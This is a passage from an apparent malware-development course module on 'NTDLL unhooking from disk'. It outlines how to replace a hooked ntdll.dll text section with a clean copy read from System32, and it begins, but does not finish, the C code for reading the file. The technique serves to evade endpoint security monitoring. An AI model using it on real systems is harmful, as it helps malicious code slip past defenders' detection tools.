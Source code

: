 84. NTDLL Unhooking - From Disk[**84. NTDLL Unhooking - From Disk**](https://maldevacademy.com/modules/84)
===========================================================================

**NTDLL Unhooking - From Disk**
-------------------------------

### **Introduction**

This module demonstrates how one can implement NTDLL unhooking by overwriting the hooked NTDLL's text section with an unhooked version from an NTDLL image on disk. The steps to perform NTDLL unhooking will be as follows:

1. Retrieve a handle to a clean version of NTDLL from disk by either reading it or mapping it (both methods are demonstrated below).
2. Fetch the hooked NTDLL's handle that belongs to the current process.
3. Retrieve the text section of the hooked NTDLL.
4. Retrieve the text section of the clean NTDLL.
5. Overwrite the hooked NTDLL's text section with the unhooked NTDLL's text section.

With that being said, let's start with the first step which is to retrieve a handle for the clean NTDLL image.

### **Retrieving NTDLL**

Retrieving a clean version of NTDLL from disk can be done using the methods described in the sections below.

### **ReadFile WinAPI**

One of the obvious ways to read `ntdll.dll` from disk is using the [ReadFile](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile) WinAPI which can be used to read files from disk. It is important to keep in mind that the text section of the `ntdll.dll` file will have an offset of 1024.

The `ntdll.dll` file can be read from disk using the custom `ReadNtdllFromDisk` function shown below which uses `GetWindowsDirectoryA`, `CreateFileA`, `GetFileSize` and `ReadFile` WinAPIs. Again, recall that the DLL file is stored inside `C:\Windows\System32\`.

The `ReadNtdllFromDisk` function will return `TRUE` if it succeeds in reading the ntdll.dll file. It has a single OUT parameter, `ppNtdllBuf`, which holds the base address of the `ntdll.dll`.


```
#define NTDLL "NTDLL.DLL"


BOOL ReadNtdllFromDisk(OUT PVOID* ppNtdllBuf) {

	CHAR	    cWinPath    [MAX_PATH / 2]    = { 0 };
	CHAR	    cNtdllPath  [MAX_PATH]        = { 0 };
	HANDLE      hFile                         = NULL;
	DWORD       dwNumberOfBytesRead           = NULL,
                dwFileLen                     = NULL;
	PVOID       pNtdllBuffer                  = NULL;

	// getting the path of the Windows directory
	if (GetWindowsDirectoryA(cWinPath, sizeof(cWinPath)) == 0) {
		printf("[!] GetWindowsDirectoryA Failed With Error : %d \n", GetLastError());
		goto _EndOfFunc;
	}

	// 'sprintf_s' is a more secure version than 'sprintf'
	sprintf_s(cNtdllPath, sizeof(cNtdllPath), "%s\\System32\\%s", cWinPath, NTDLL);

	// getting the handle of the ntdll.dll file
```